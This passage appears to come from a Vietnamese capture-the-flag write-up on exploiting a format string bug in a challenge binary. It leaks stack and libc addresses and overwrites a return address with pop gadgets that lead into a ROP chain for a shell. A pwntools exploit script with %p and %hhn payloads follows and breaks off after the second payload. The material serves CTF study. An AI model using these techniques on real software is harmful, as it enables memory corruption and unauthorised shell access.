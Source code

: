 ```main``` :  ở đây cần chú ý đến đoạn ```dup2```
- hướng 2 : cách này chỉ ghi trong 1 lần và nhanh hơn cách 1 , ở đây địa chỉ ret của ```main``` sẽ là ```libc_start_main_ret``` là 1 địa chỉ libc ->  ta sẽ sử dụng "*" để lấy số byte của libc_start_main_ret + offset one_gadget ghi vào retaddress của ```__vfprintf_internal``` 


### Exploit 1 : 

- đầu tiên ta có thể leak địa chỉ stack như sau và địa chỉ chứa giá trị của ```fd``` với ```ret_address```

- tiếp theo sau khi overwrite giá trị của fd rồi thì bây giờ ta có thể leak libc thoải mái , có libc rồi thì ta overwrite ```ret_address``` bằng 1 rop_chain đúng không?, tuy nhiên ở đây mình sẽ overwrite nó bằng các ```gadget pop``` tương ứng với số byte để dùng fsb , nó sẽ trông giống như thế này 


![image](https://hackmd.io/_uploads/B1EB_NFv1e.png)


- lúc này ```ret_address``` sẽ thành các lệnh ```pop``` , và nó ```pop``` hết ề byte rác của ta và nó sẽ ret đúng rop_chain dùng để get_shell , thay vì ta overwrite 4 lần thì giờ thì cần 1 lần

script





```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./chall_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-linux-x86-64.so.2")

context.binary = exe

p = process()
gdb.attach(p,gdbscript='''
           b*main
           brva 0x00000000000014A9
           brva 0x000000000000152A
           brva 0x000000000000141E
           brva 0x000000000000159C
           ''')
input()
p.sendlineafter(b'flag)\n',b'%p%p%p%p' + b'%')
leak_stack = int(p.recvuntil(b'r')[:-1],16)
log.info(f"leak stack {hex(leak_stack)}")

ret_to_main_ptr = leak_stack + 0x90
dup_ptr = leak_stack + 0x124

payload = f"%{42}c%10$hhn%{216}c%11$hhn".encode()
payload = payload.ljust(0x20,b'a')
payload += p64(ret_to_main_ptr) + p64(dup_ptr)

p.sendline(payload)
### quay lai main va ghi de ptr_fd bang stderr ###
payload2 =  f"%116c%10$hhn|%25$p_\x00".encode().ljust(0x20, b'\x00') + p64(ret_to_main_ptr)
#### leak libc and ret main ####
sleep(2)
```